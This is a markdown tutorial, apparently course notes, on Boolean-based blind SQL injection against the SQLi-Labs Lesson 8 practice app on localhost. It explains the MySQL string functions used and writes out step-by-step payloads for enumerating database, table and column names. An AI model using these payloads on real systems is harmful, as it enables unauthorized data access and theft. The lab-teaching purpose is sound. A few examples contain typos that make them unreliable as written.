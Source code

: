 <h1 align="center">Blind SQL Injection</h1>

# Blind (Boolean-Based) SQL Injection

- Blind SQL (Structured Query Language) injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response


# SQl function you need to know


## `length()`

- Return the length of the string, in bytes
- Syntax
- `LENGTH(string)`
	- eg. `SELECT LENGTH("SQL Tutorial");`
	- eg. `SELECT LENGTH(databse());`



## `substring()`

- The `SUBSTRING()` function extracts a substring from a string (starting at any position).

- Syntax

- `SUBSTRING(string, start, length)`
	- eg. `SUBSTRING("sqltest",2,3;)`
	- eg. `SUBSTRING(database(),1,1)`




## `ascii()`

- The ASCII() function returns the ASCII value for the specific character

- Syntax
- `ASCII(character)`

## `CHAR()`

-  `CHAR()` returns the character value of the given integer value according to the ASCII table

- Syntax
- `CHAR(ASCII number)`

# Practical Lab Training 


`In this session, We used SQLi Lab Lesson-8`

## 1. Finding parameter to inject 

`http://localhost:8000/chapter1/sqli_lab/Less-8/?id=2`

- Background Query

	- `SELECT * FROM table_name WHERE id='2'`

## 2. Identify the vulnearbility

- 1. test with quote `'` or `"`
- 2. Fix Error with `-- -` or `--+`
- 3. Testing with condition

	- TRUE  Condition ==> `AND 1=1` or `AND '1'='1` 
	- FALSE Condition ==> `AND 1=2` or `AND '1'='2` 

## 3. Emnumerate Data

#### 1. Finding Length of Database

- Use `<` and `=` operater and find the length of Database name
- `AND (LENGTH(database())) < 10` 
- `AND (LENGTH(database())) = 8` 

#### 2. Finding Database name using `ascii()` and `substring()` Function


- `AND (ascii(substring(database(),1,1))) < 100`

#### 3. Finding Table name 

- Step by step payload creation

	- `AND (ascii(substring()))`

	- `(select table_name from information_schema.tables where table_schema= database() limit 0,1);
`

- Final payload (I already know user tables is fourth table and then use `limit 3,1`)

- `AND (ascii(substring((select table_name from information_schema.tables where table_schema= database() limit 3,1), 1,1 ))) < 100`

#### 4. Finding Column name


`AND (ascii(substring((select column_name from information_schema.columns where table_name = 'users' and table_schema= database() limit 1,1), 1,1 ))) < 100`







